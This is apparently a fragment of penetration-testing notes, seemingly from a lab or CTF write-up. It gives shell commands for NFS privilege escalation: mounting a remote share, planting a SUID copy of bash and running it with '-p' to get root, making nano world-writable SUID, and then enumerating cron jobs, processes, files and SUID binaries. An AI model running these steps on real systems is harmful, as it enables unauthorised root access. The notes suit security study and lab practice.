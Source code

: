   - Create a local directory and mount the NFS share:
    ```bash
    mkdir /tmp/nfs
    sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
    ```

  - Navigate to the mounted directory:
    ```bash
    cd /tmp/nfs
    ```

  - Escalate privileges:
    ```bash
    sudo cp /bin/bash .
    sudo chmod +s bash
    ```

  - Open a bash shell on the target machine:
    ```bash
    ./bash -p
    ```

  - Check for root access:
    ```bash
    whoami
    ```

  - Install nano editor on the target machine:
    ```bash
    cp /bin/nano .
    chmod 4777 nano
    ```

  - View running cron jobs:
    ```bash
    cat /etc/crontab
    ```

  - View current processes:
    ```bash
    ps -ef
    ```

  - View .txt files on the system:
    ```bash
    find / -name "*.txt" 2> /dev/null
    ```

  - View host/network names in numeric form:
    ```bash
    route -n
    ```

  - View SUID executable binaries:
    ```bash
    find / -perm -4000 2> /dev/null
    ```

---
